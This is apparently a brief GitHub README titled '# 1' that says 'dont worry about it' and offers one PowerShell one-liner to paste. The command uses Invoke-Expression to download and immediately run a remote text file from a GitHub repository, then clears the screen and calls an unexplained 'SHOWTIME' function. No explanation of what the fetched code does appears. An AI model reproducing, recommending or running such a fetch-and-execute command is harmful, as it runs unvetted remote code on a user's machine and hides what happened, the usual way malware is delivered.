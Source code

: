 # 1
dont worry about it

```
IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/aftoncodes/1/main/1.txt'));cls;SHOWTIME
```
